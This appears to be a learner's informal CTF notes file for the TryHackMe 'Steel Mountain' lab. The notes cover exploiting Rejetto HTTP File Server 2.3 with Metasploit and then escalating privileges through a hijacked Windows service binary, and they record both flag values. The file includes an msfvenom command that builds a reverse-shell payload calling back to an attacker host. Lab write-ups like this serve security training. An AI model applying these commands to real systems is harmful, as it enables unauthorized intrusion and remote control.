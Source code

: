 ### Steel Mountain ###

export IP=10.10.29.65


found img dir on the defualt 80 sv...but 403 access denied..

no other dir from gobuster either..

no robots... bummerrrr...kidding

nmap showed 8080...found one more http server running on 8080

its an rejetto http file server v2.3

very vuln to remote code exec..
firing msfconsole...then search CVE....

found the exploit its ranked excellent so thats good..

found the home dir of msf.../usr/share/metasploit-framework/modules/exploits/.. haha xD


exploited using my kali of tryhackme....found a meterpreter shell..
found the flag in C:/Users/bill/Desktop/user.txt

04763b6fcf51fcd7c13abc7db4fd365

### Windows PowerUp ###

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

downloaded in /opt/windows/powersploit/powerup



uploaded and executed with powershell

load powershell

powershell_shell

. .\PowerUp.ps1
Invoke-AllChecks


found CanRestartService as true

Name:AdvancedSystemCareService9
path:C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe

generated our malicious code with msfvenom

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.189.176 LPORT=4545 -e x86/shikata_ga_nai -f exe -o Advanced.exe


Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>


finally
i did it 
litrellyyyyyyyyy feel like crying ik its small for many ppl bt i had strugle......................................


cp ASCService.exe C:/Program\ Files\ (x86)/IObit/Advanced\ SystemCare/ASCService.exe


and powershell_shell....

CMD-Service -Name '<Name>'

CMD eg: Stop,Start,Restart

navigated to c:/Users/Administrator/Desktop/

more root.txt:9af5f314f57607c00fd09803a587db80

without metasploit now...

switching to my VM now..

